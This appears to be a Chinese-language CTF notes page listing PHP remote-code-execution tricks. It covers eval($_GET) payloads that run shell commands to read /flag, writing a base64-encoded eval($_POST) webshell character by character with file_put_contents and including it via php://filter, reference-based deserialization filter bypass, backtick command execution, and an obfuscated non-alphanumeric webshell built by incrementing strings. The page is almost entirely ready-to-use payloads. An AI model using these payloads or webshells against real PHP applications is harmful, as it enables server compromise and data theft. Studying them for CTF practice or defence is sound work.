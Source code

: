 ### 绕过字符串长度

```php
?get=eval($_GET['A']);&A=system('cat /flag');
//下面两种我尝试了不行？，有时间试过，mark一下
?get=`$_GET[1]`;&1=bash
?get=exec($_GET[1]);
```

本地文件包含的利用
`?get=$_GET[a](N,a,8);&a=file_put_contents`
file_put_contents的第一个参数是文件名，我传入N。PHP会认为N是一个常量，但我之前并没有定义这个常量，于是PHP就会把它转换成字符串'N'；第二个参数是要写入的数据，a也被转换成字符串'a'；第三个参数是flag，当flag=8的时候内容会追加在文件末尾，而不是覆盖。

除了file_put_contents，error_log函数效果也类似。
每次向文件'N'中写入一个字母或数字，最后构成一个base64字符串，再包含的时候使用php://filter对base64进行解码即可.

以下是未实现

```bash
# 每次写入一个字符：PD9waHAgZXZhbCgkX1BPU1RbOV0pOw
# 最后包含
?get=include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=N
```

### 深浅copy

在php中如果我们使用 & 对变量A的值指向变量B，这个时候是属于浅拷贝，当变量B改变时，变量A也会跟着改变。在被反序列化的对象的某些变量被过滤了，但是其他变量可控的情况下，就可以利用浅拷贝来绕过过滤。
`$A = &$B;`

### 极限rce

#### 反引号

``code=echo `$_POST[1]`;&1=cat /f*``
``file=| `echo bHMgLw== | base64 -d` > cd8494ce544176f7809fdd46d67d2009.png``

#### 自增

```php
<?php
$_=[].'';//Array
$_=$_[''=='$'];//A
$____='_';//_
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//P
$____.=$__;//_P
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//O
$____.=$__;//_PO
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//S
$____.=$__;//_POS
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//T
$____.=$__;//_POST
$_=$____;//_POST

$$_[__]($$_[_]);//$_POST[__]($_POST[_]);
?>
```
